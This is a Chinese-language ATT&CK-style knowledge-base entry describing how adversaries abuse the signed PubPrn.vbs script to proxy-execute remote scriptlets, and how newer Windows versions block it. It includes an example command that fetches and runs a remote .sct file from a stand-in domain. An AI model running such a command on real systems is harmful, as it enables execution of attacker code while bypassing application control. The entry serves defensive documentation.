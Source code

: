 ```yaml
---
hide:
  - toc
---
```


# PubPrn

对手可能会使用 PubPrn 代理执行恶意远程文件。PubPrn.vbs 是一个 [Visual Basic](https://attack.mitre.org/techniques/T1059/005) 脚本，用于将打印机发布到 Active Directory 域服务。该脚本可能由 Microsoft 签名，通常通过 <code>Cscript.exe</code> 通过 [Windows 命令行](https://attack.mitre.org/techniques/T1059/003) 执行。例如，以下代码在指定域内发布打印机：<code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>。(引用: pubprn)  对手可能会滥用 PubPrn 执行托管在远程站点上的恶意有效负载。(引用: Enigma0x3 PubPrn Bypass) 为此，对手可能会将第二个 <code>script:</code> 参数设置为引用托管在远程站点上的脚本文件 (.sct)。一个示例命令是 <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>。这种行为可能会绕过签名验证限制和不考虑滥用此脚本的应用程序控制解决方案。  在 Windows 的较新版本（10+）中，<code>PubPrn.vbs</code> 已更新以防止代理执行来自远程站点的代码。这是通过将第二个参数中指定的协议限制为 <code>LDAP://</code>，而不是可以通过 HTTP(S) 引用远程代码的 <code>script:</code> 标识符来实现的。
